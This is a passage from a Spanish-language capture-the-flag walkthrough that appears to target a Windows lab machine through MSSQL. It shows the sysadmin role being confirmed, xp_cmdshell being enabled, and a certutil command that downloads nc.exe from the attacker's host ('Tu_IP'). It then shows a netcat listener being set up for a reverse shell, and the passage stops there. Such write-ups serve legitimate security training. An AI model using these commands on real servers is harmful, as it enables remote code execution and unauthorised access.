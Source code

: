 También podemos comprobar si tenemos el rol **sysadmin**, que es el máximo rol en el **MSSQL** (este rol lo tiene el **usuario dbo**):
```batch
SQL (SIGNED\mssqlsvc  dbo@master)> SELECT IS_SRVROLEMEMBER('sysadmin');
    
-   
1
```
Tenemos este rol.

Entonces, ya podemos activar el **xp_cmdshell**:
```batch
SQL (SIGNED\mssqlsvc  dbo@master)> enable_xp_cmdshell
INFO(DC01): Line 196: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
INFO(DC01): Line 196: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
```

Ya podemos ejecutar comandos con la función **xp_cmdshell**:
```batch
SQL (SIGNED\mssqlsvc  dbo@master)> xp_cmdshell "whoami"
output            
---------------   
signed\mssqlsvc
```

Vamos a obtener una sesión en la máquina víctima usando el binario **nc.exe**.

Busca y copia en tu directorio de trabajo este binario:
```bash
locate nc.exe
/usr/lib/mono/4.5/cert-sync.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe

cp /usr/share/windows-resources/binaries/nc.exe .
```

Levanta un servidor con **python3**:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde la sesión del **MSSQL**, copiemos el binario en un directorio temporal usando **certutil**:
```batch
SQL (SIGNED\mssqlsvc  dbo@master)> xp_cmdshell "mkdir C:\Temp"
...
SQL (SIGNED\mssqlsvc  dbo@master)> xp_cmdshell "certutil.exe -urlcache -split -f http://Tu_IP/nc.exe C:\Temp\nc.exe"
...
CertUtil: -URLCache command completed successfully.
```

Abre un listener con **rlwrap** y **netcat**:
```bash
rlwrap nc -nlvp 443
listening on [any] 443 ...
```
